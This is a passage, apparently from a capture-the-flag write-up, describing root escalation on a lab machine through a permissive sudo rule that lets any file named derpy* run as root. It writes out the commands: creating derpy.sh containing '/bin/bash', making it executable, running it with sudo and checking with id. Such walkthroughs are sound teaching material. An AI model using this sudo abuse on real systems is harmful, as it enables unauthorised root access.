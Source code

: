 <pre>mkdir binaries
cd binaries</pre>

In this case, anything named derpy* (where * means any) has sudo rights.

<pre>echo "/bin/bash" > derpy.sh</pre>

The above command is outputting “/bin/bash” into a file called derpy.sh. If this is executed, it will give derpy root privs. To execute this file, it must be made executable.

<pre>chmod +x derpy.sh</pre>

![sh](https://imgur.com/JlD1B1P.png)

Now execute the file:

<pre>sudo ./derpy.sh
id</pre>

![exesh](https://imgur.com/gK5pfSw.png)

The id command shows we are root. The flag will be located in /root.
